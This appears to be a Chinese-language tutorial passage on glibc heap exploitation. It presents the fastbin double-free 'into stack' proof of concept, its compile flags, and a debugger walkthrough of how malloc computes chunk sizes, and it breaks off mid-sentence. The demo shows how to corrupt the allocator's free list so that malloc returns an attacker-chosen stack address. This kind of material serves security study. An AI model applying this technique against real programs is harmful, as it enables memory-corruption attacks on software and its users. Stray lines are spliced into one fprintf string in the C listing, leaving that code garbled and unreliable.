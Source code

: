 环境：Linux x64 -- glibc 2.23

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
	fprintf(stderr, "This file extends on fastbin_dup.c by tricking malloc into\n"
	       "returning a pointer to a controlled location (in this case, the stack).\n");

	unsigned long long stack_var;

	fprintf(stderr, "The address we want malloc() to return is %p.\n", 8+(char *)&stack_var);

	fprintf(stderr, "Allocating 3 buffers.\n");
	int *a = malloc(8);
	int *b = malloc(8);
	int *c = malloc(8);

	fprintf(stderr, "1st malloc(8): %p\n", a);
	fprintf(stderr, "2nd malloc(8): %p\n", b);
	fprintf(stderr, "3rd malloc(8): %p\n", c);

	fprintf(stderr, "Freeing the first one...\n");
	free(a);

	fprintf(stderr, "If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);
	// free(a);

	fprintf(stderr, "So, instead, we'll free %p.\n", b);
	free(b);

	fprintf(stderr, "Now, we can free %p again, since it's not the head of the free list.\n", a);
	free(a);

	fprintf(stderr, "Now the free list has [ %p, %p, %p ]. "
		"We'll now carry out our attack by modifying data at %p.\n", a, b, a, a);
	unsigned long long *d = malloc(8);

	fprintf(stderr, "1st malloc(8): %p\n", d);
	fprintf(stderr, "2nd malloc(8): %p\n", malloc(8));
	fprintf(stderr, "Now the free list has [ %p ].\n", a);
	fprintf(stderr, "Now, we have access to %p while it remains at the head of the free list.\n"
		"so now we are writing a fake free size (in this case, 0x20) to the stack,\n"
		"so that malloc will think there is a free chunk there and agree to\n"
		"return a pointer to it.\n", a);
	stack_var = 0x20;

	fprintf(stderr, "Now, we overwrite the first 8 bytes of the data at %p to point right before the 0x20.\n", a);
	*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));

	fprintf(stderr, "3rd malloc(8)	int *a = malloc(8);
	int *b = malloc(8);
	int *c = malloc(8);
: %p, putting the stack address on the free list\n", malloc(8));
	fprintf(stderr, "4th malloc(8): %p\n", malloc(8));
}
```

编译参数：

```bash
gcc -g -Wl,--rpath=/path/to/libc/lib -Wl,--dynamic-linker=/path/to/libc/ld.soc fastbin_dup_into_stack.c -o fastbin_dup_into_stack
```

编译后 ldd 可以看出来

```
$ ldd fastbin_dup_into_stack 
	linux-vdso.so.1 (0x00007ffe2c1f7000)
	libdl.so.2 => /glibc/x64/2.23/lib/libdl.so.2 (0x00007feaacc0c000)
	libc.so.6 => /glibc/x64/2.23/lib/libc.so.6 (0x00007feaac86b000)
	/glibc/x64/2.23/lib/ld-2.23.so => /usr/lib64/ld-linux-x86-64.so.2 (0x00007feaace17000)
```

我的 libc 是放在 /glibc 的，所以编译出来的 elf 共享库链接都会指向我给定的编译参数（-Wl,--rpath= 和 -Wl,--dynamic-linker=）



可以看到  `stack_var` 变量是放在栈上的，我们要经过一系列操作让 `malloc` 分配到这一个变量的地址

```c
int *a = malloc(8);
int *b = malloc(8);
int *c = malloc(8);
```
在堆上分配了三个 chunk，看起来我们分配的是大小为 8 的的内存，其实 malloc 会给我们分配 16 字节的空间，还有 chunk 的 prev_size 和 size 字段要占用 16 字节，所以 ptmalloc 会给我们分配的 chunk 大小为 32 字节（最小 chunk）

可以结合源码调试看看

![](https://gitee.com/scriptkiddies/images/raw/master/20201110221502.png)

我的 libc 是带有 debug info 的，所以我直接在 `__libc_malloc` 下断点（这个是 glibc 的 malloc 的入口）

![](https://gitee.com/scriptkiddies/images/raw/master/20201110221825.png)

```c
__GI___libc_malloc (bytes=8)
```

我们请求分配的是 8 字节的内存，这个函数只是会进行一些简单的检查，然后把 分配区 和分配的大小 传给 `_int_malloc` ， malloc 的主要逻辑都是在 `_int_malloc` 里面

在 `_int_malloc` 中会进行

```
checked_request2size (bytes, nb);
```

计算出对应的 chunk 的大小

这个宏的定义

```c
#define request2size(req)                                         \
  (((req) + SIZE_SZ + MALLOC_ALIGN_MASK < MINSIZE)  ?             \
   MINSIZE :                                                      \
   ((req) + SIZE_SZ + MALLOC_ALIGN_MASK) & ~MALLOC_ALIGN_MASK)

/*  Same, except also perform argument check */

#define checked_request2size(req, sz)                             \
  if (REQUEST_OUT_OF_RANGE (req)) {					      \
      __set_errno (ENOMEM);						      \
      return 0;								      \
    }									      \
  (sz) = request2size (req);
```

所以我们分配 8 字节的内存得到的 chunk 的大小为 MINSIZE 在 x64 下是 32

我挑出了相关操作的汇编

```asm
│   0x7ffff78ab7ba <_int_malloc+10>         mov    rax,rsi                                     
......                                   
│   0x7ffff78ab7c1 <_int_malloc+17>         add    rax,0x17
......
│   0x7ffff78ab7ca <_int_malloc+26>         push   rbx
│   0x7ffff78ab7cb <_int_malloc+27>         mov    r9,rax
│   0x7ffff78ab7ce <_int_malloc+30>         and    r9,0xfffffffffffffff0
......
│   0x7ffff78ab7d9 <_int_malloc+41>         cmp    rax,0x20
│   0x7ffff78ab7dd <_int_malloc+45>         mov    eax,0x20 
│   0x7ffff78ab7e2 <_int_malloc+50>         cmovae rax,r9 
```

可以看到的是，会先把我们请求的内存大小加上 0x17，然后屏蔽掉第